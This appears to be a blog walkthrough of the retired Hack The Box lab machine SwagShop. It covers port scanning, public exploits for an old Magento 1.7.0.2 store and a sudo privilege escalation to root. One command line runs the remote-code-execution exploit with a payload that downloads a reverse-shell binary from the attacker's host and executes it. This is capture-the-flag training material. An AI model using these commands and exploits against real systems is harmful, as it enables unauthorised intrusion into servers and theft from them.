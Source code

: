 ```yaml
---
layout: post
title: "SwagShop: Hack The Box Walkthrough"
date: 2019-09-28 19:03:53 +0000
last_modified_at: 2019-09-28 19:03:53 +0000
category: Walkthrough
tags: ["Hack The Box", SwagShop, retired]
comments: true
image:
  feature: swagshop-htb-walkthrough.jpg
  credit: Life-Of-Pix / Pixabay
  creditlink: https://pixabay.com/photos/pigeon-bird-walking-street-road-569128/
---
```


This post documents the complete walkthrough of SwagShop, a retired vulnerable [VM][1] created by [ch4p][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

SwagShop is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.140 --rate=700

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-05-14 01:30:31 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.140                                    
Discovered open port 80/tcp on 10.10.10.140
```

Nothing unusual. Let's do one better with `nmap` scanning the discovered ports to establish the services.

```
# nmap -n -v -Pn -p22,80 -A --reason -oN nmap.txt 10.10.10.140
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Error 503: Service Unavailable
```

The `http` service appears to be running an old version of Magento Community Edition (2014? Hello, it's 2019!). Sometimes it pays to look at the copyright notice down at the footer. Here's how it looks like.

<a class="image-popup">
![d34cc2c8.png](/assets/images/posts/swagshop-htb-walkthrough/d34cc2c8.png)
</a>

Scroll down.

## Magento Community Edition 1.7.0.2

How do I know the version? Check out the release notes basically. The directory structure is also found in a GitHub repository [mirror](https://github.com/OpenMage/magento-mirror/tree/1.7.0.2) for older versions.

<a class="image-popup">
![a09563a1.png](/assets/images/posts/swagshop-htb-walkthrough/a09563a1.png)
</a>

### Magento Shoplift Vulnerability

This particular version is susceptible to the Magento Shoplift vulnerability [discovered](https://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/) by Checkpoint in 2015.

Well, there's a readily available exploit, EDB-ID [37977](https://www.exploit-db.com/exploits/37977) for it. Running this exploit will grant access to the Admin Panel with credentials (`forme:forme`).

### Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution

This next exploit, EDB-ID [37811](https://www.exploit-db.com/exploits/37811) will allow us to execute remote commands. There are just two minor modifications to the exploit script.

<a class="image-popup">
![701cf120.png](/assets/images/posts/swagshop-htb-walkthrough/701cf120.png)
</a>

We got the credentials from the previous exploit. The installation date can be obtained from `http://10.10.10.140/app/etc/local.xml` as suggested.

<a class="image-popup">
![4bfdeefa.png](/assets/images/posts/swagshop-htb-walkthrough/4bfdeefa.png)
</a>

One last thing we need to know is the URL to the Admin Panel, which is `http://10.10.10.140/index.php/admin`. You can get a feel of the directory structure by navigating the site a bit, provided it doesn't give you `503`s :laugh:

## Low-Privilege Shell

I generate a reverse shell with `msfvenom`, host it with Python's SimpleHTTPServer, and also set up a `nc` listener. We then execute the exploit like so.

```
# python rce.py http://10.10.10.140/index.php/admin "wget -O/tmp/rev http://10.10.14.11/rev; chmod +x /tmp/rev; /tmp/rev"
```

<a class="image-popup">
![2654aa89.png](/assets/images/posts/swagshop-htb-walkthrough/2654aa89.png)
</a>

It's customary to display `/etc/passwd`.

<a class="image-popup">
![a7d45ff6.png](/assets/images/posts/swagshop-htb-walkthrough/a7d45ff6.png)
</a>

The file `user.txt` is in `haris`'s home directory and it can be disappointingly read by all.

<a class="image-popup">
![b11e7841.png](/assets/images/posts/swagshop-htb-walkthrough/b11e7841.png)
</a>

## Privilege Escalation

Notice the `.sudo_as_admin_successful`?

<a class="image-popup">
![1859737a.png](/assets/images/posts/swagshop-htb-walkthrough/1859737a.png)
</a>

This means that `haris` is able to `sudo` to a certain extent.

<a class="image-popup">
![4aaf3f8b.png](/assets/images/posts/swagshop-htb-walkthrough/4aaf3f8b.png)
</a>

There you go, classic escape to `root` shell.

<a class="image-popup">
![6d2c05ad.png](/assets/images/posts/swagshop-htb-walkthrough/6d2c05ad.png)
</a>

With that, getting `root.txt` is a breeze.

<a class="image-popup">
![87726194.png](/assets/images/posts/swagshop-htb-walkthrough/87726194.png)
</a>

:dancer:

## Afterthought

What a neat idea to promote the SwagShop!

[1]: https://www.hackthebox.eu/home/machines/profile/188
[2]: https://www.hackthebox.eu/home/users/profile/1
[3]: https://www.hackthebox.eu/
